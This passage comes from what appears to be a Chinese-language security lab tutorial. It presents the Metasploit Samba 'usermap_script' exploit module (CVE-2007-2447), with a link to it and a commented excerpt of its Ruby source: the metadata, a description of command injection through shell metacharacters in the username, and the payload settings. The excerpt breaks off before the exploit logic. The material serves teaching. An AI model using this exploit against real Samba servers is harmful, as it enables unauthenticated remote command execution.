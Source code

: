 ### 8.3 攻击模块

我们在本次实验中使用的是 Metasploit 框架下的 Samba 攻击模块，该模块使用 Ruby 语言编写，源代码链接如下：

+ [exploit/multi/samba/usermap_script](https://github.com/rapid7/metasploit-framework/blob/master/modules/exploits/multi/samba/usermap_script.rb)

攻击模块的代码讲解，包含关键步骤的注释信息：

本次使用的攻击模块代码量很少，不懂 Ruby 也没有关系，只需要了解代码中的大概逻辑。如果对攻击模块的编写感兴趣，可以学习下 Ruby 再来深入研究模块编程细节。


```
...

# 引入 MSF 框架核心模块
require 'msf/core'

# 定义 MSF 模块类
class MetasploitModule < Msf::Exploit::Remote
  ...
  
  # 引入 Samba Client 
  include Msf::Exploit::Remote::SMB::Client

  ...

  # 初始化模块，包含模块名称，描述，作者，License，漏洞索引号，平台等信息
  def initialize(info = {})
    super(update_info(info,
      'Name'           => 'Samba "username map script" Command Execution',
      'Description'    => %q{
          This module exploits a command execution vulerability in Samba
        versions 3.0.20 through 3.0.25rc3 when using the non-default
        "username map script" configuration option. By specifying a username
        containing shell meta characters, attackers can execute arbitrary
        commands.

        No authentication is needed to exploit this vulnerability since
        this option is used to map usernames prior to authentication!
      },
      'Author'         => [ 'jduck' ],
      'License'        => MSF_LICENSE,
      'References'     =>
        [
          [ 'CVE', '2007-2447' ],
          [ 'OSVDB', '34700' ],
          [ 'BID', '23972' ],
          [ 'URL', 'http://labs.idefense.com/intelligence/vulnerabilities/display.php?id=534' ],
          [ 'URL', 'http://samba.org/samba/security/CVE-2007-2447.html' ]
        ],
      'Platform'       => ['unix'],
      'Arch'           => ARCH_CMD,
      'Privileged'     => true, # root or nobody user
      'Payload'        =>
        {
          'Space'    => 1024,
          'DisableNops' => true,
          'Compat'      =>
            {
              'PayloadType' => 'cmd',
              # *_perl and *_ruby work if they are installed
              # mileage may vary from system to system..
            }
        },
      'Targets'        =>
```